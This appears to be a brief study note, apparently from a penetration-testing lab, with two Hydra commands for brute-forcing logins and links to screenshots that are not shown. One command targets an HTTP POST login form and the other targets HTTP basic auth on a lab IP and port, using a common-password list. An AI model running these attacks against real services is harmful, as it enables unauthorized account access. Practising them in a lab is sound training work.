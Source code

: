 ___

```bash
hydra -l admin -P passwords.txt www.example.com http-post-form "/login:user=^USER^&pass=^PASS^:S=302"
```


![[Pasted image 20241004131226.png]]

![[Pasted image 20241004131402.png]]

![[Pasted image 20241004131415.png]]

```shell-session
hydra -l basic-auth-user -P /usr/share/seclists/Passwords/2023-200_most_used_passwords.txt 83.136.254.47 http-get / -s 52283
```

![[Pasted image 20241004131840.png]]





